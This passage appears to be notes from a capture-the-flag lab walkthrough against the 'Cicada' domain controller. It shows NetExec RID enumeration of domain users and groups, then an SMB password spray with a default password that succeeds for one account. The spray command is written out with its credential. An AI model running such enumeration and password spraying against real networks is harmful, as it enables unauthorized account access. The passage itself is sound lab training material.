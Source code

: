 SMB         10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)



# ===USERS===

SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)


# password spray in SMB:

└> sudo nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' 
Using virtualenv: /usr/share/netexec/virtualenvs/netexec-PWU1S8Zj-py3.12
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8



found user and password combination:

